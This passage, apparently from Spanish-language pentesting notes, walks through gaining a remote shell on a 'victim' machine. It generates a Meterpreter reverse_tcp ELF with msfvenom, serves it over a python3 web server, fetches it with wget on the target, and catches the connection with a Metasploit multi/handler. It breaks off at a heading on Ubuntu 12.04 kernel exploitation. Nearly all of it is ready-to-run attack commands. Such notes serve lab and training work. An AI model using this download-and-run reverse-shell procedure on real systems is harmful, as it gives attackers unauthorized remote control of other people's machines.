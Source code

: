 Y por si acaso no estuviera iniciado.

```shell
sudo service ssh start
```

### Obtencion de shell (Easy)

Lo primero que haremos sera crear un `.elf` con `msfvenom` para pasarselo a la maquina victima y asi tener una shell.

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

Ahora abriremos un servidor de `python3` y lo pasaremos a la maquina victima.

```shell
python3 -m http.server 80
```

Dentro de la maquina victima hacemos lo siguiente.

```shell
wget http://<IP>/shell.elf
```

Y ahora pasaremos a configurar en metasploit la escucha.

```shell
msfconsole -q
```

```shell
use multi/handler
```

Configguramos el exploit para que este a la escucha en nuestra IP y Puerto.

```shell
set payload linux/x64/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
```

Ejecutamos la escucha.

```shell
run
```

Una vez hecho esto, ejecutaremos en la maquina victima el archivo `shell.elf` de la siguiente forma.

```shell
./shell.elf
```

Y si nos vamos a donde tenemos la escucha en metasploit, veremos una shell con el usuario que lo haya ejecutado.

## <mark style="color:purple;">Explotar kernel Ubuntu 12.04</mark>
